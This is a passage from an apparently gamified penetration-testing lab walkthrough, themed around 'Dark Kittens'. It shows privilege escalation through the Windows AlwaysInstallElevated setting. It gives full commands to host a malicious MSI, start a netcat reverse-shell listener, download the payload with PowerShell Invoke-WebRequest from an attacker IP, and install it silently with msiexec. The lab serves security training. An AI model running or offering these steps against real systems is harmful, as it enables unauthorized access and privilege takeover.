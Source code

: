 Provided there are no errors, you should have a malicious binary file ready to deploy on the target. Use the `ls -la` command to confirm the file was generated correctly.

Next, you will run a basic web server to host the file. You will use **PowerShell** to connect to it and download the binary to the target host:

1. From the same terminal prompt, enter: `php -S 0.0.0.0:80`.

You will now start a *netcat* listener on your *Kali* host:

1. Open a new terminal from the menu: **File > New Tab**. Or press **Ctrl+Shift+T**.
2. Enter the following in the new terminal: `nc -nvlp 443`.
   1. The `-n` parameter means do not resolve DNS names.
   2. The `-v` parameter puts *netcat* in verbose mode.
   3. The `-l` paremeter puts *netcat* in listening mode.
   4. The `-p` parameter specifies the port to listen on (*443*).

Return to the Window host in the **RDP** session. It's time to execute your privilege escaloation exploit:. First, you will use the *Invoke-WebRequest* cmdlet to download the binary file:

1. In the **PowerShell** session, enter `iwr -uri "http://172.31.24.100/dark_kitten.msi" -outfile ".\dark_kitten.msi"`.
   1. The `-uri` parameter specifies the file to download.
   2. The `-outfile` parameter specifies where you want to save the file.
2. Confirm that the file has downloaded using the `dir` command.

If all has gone well, you are ready to escalate your pivieleges.

1. From the **PowerShell** prompt, enter `msiexec /i C:\Tools\dark_kitten.msi /qn`.
   1. The `/i` parameter installs the specified file.
   2. The `/qn` parameter sets the interface level to *No UI*.
2. Return to your *netcat* listener on the *Kali* host, you should have a reverse shell.
3. Enter `whoami` in the reverse shell to confirm you have escalated your privileges.

In this challenge, you successfully escalated your privileges on the target host using the AlwaysInstallElevated registry key exploit.

You have proved useful to us, great job!

*Chairman Meow, Supreme Leader of the Dark Kittens.*
